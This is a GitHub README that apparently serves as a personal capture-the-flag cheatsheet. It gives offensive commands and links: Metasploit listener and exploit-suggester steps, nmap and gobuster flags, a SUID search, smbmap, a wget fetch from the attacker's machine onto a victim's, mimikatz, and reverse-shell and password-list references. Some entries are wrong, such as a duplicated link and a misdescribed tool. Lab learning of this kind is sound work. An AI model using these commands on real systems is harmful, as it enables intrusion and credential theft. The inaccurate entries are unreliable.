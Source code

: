 # my-CTF-s-Cheatsheets-global-reference

1. STEGANOGRAPHY :  

https://0xrick.github.io/lists/stego/

2. HASHCAT METHODS :

https://hashcat.net/hashcat/#features-algos

3.EXPLOIT ENUMERATION : 

 *Exploit-db 
 *CVE-Mitre 
 *Rapid7 
 
 LINUX CLI INTERFACE : 
 
  searchsploit *name-of-the-vulnerability*
  
 4. WORDPRESS VULNERABILITY ENUMERATION : 
 
 https://wpvulndb.com/
 
 LINUX CLI -----> wpscan -h
 
 5. METASPLOIT : 
 
 *SETTING MSFLISTENER ----> use multi/handler 
 setting payload ----> set PAYLOAD *name of the payload*
 
 FINDING LOCAL EXPLOITS IN POST EXPLOITATION PROCESS : 
 COMMAND --->use post/multi/recon/local_exploit_suggester
 
 CONVERTING A SHELL TO A METERPRETER : 
 
 CMD ----> search shell_to_meterpreter in msfconsole menu

 6. NMAP : 
 
 TABLE FOR BASIC ENUMERATION COMMANDS;
 
 nmap-flag	                                         Description
-sV	                                                 Attempts to determine the version of the services running
-p <x> or -p-	                                       Port scan for port <x> or scan all ports
-Pn                                                  Disable host discovery and just scan for open ports
-A	                                                 Enables OS and version detection, executes in-build scripts for further enumeration 
-sC	                                                 Scan with the default nmap scripts
-v	                                                 Verbose mode
-sU	                                                 UDP port scan
-sS	                                                 TCP SYN port scan
  
CHEATSHEETS FOR NMAP :

https://hackertarget.com/nmap-cheatsheet-a-quick-reference-guide/
https://www.tutorialspoint.com/nmap-cheat-sheet

7.WEB APP DIRECTORY BRUTEFORCING(HIDDEN DIRECTORIES) : 

GoBuster-flag	                                       Description
-e	                                                 Print the full URLs in your console
-u	                                                 The target URL to bruteforce
-w	                                                 Path to your wordlist to crack with it
-U and -P	                                          Single known Username and Password for Basic Auth
-p <x>	                                             Proxy to use for requests
-x                                                  Extensions to search with the directory
  
 8. SEARCHING FOR SUID FILES FROM THE ROOT DIRECTORY : 
 
 CMD -----> : find / -user root -perm -4000 -exec ls -ldb {} \;
 
 9.PRIVELEGE ESCALATION THROUGH SUID :
 
 https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/
 
 10.PRIVELEGE ESCALATION REFERENCE :
 
 https://www.hackingarticles.in/privilege-escalation-cheatsheet-vulnhub/
 
 11. SMB ENUMERATION :
 
 CMD -----> smbmap -H TARGET_IP (FOR SCANNING USERNAMES OF THE GIVEN DOMAIN OR TARGET IP)
 
 12.FILE TRANSFER FROM OUR ATTACKER'S MACHINE TO THE REMOTE OR VICTIM'S MACHINE :
 
 *wget
 *scp
 *lcd
 SCP :
 
 * scp filename hostuser@target_ip:/path_to_upload(/tmp)
 
 * wget http://local_ip/file_to_upload
 
 13.WINDOWS PRIVELEGE ESCALATION :
 
 mimikatz : open-source for user authentication systems 
 
 https://www.varonis.com/blog/what-is-mimikatz/
 
 service : lsaas service
 
 kiwi : most updated version of mimikatz
 
 14.OHSINT TOOLS :
 
 exiftool : extract metadata of an image with crucial copyrights name
 
 sherlock : https://github.com/sherlock-project/sherlock
 
 wigle : https://www.wigle.net/   ----> for finding the location of the WAP and ssid using the bssid more specifically.
 
 15.SCRIPTS FOR PRIVELEGE ESCALATION : 
 
 LINENUM :
 
 https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
 
 IMPAKCET :
 
 https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
 
 https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
 
 LINUX KERNEL EXPLOIT SUGGESTER : 
 
 https://github.com/mzet-/linux-exploit-suggester/
 
 16.USE PWNDBG AND GDB FOR COMPILING PROGRAMS AND BINARY FILES : 
 
 https://docs.pwntools.com
 
 17.ONLINE HASH CRACKING LINKS : 
 
 CRACKSTATION:  https://crackstation.net/
 
 HASHRC: https://md5hashing.net/
 
 ROT-CIPHER: https://www.dcode.fr/rot-cipher
 
 MORSE-DECODER: 
 
 18.REVERSE-SHELL-CHEATSHEETS:
 
 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
 
 19.COMMON PASSWORDS LIST FOR BRUTEFORCING : 
 
 https://github.com/DavidWittman/wpxmlrpcbrute/blob/master/wordlists/1000-most-common-passwords.txt
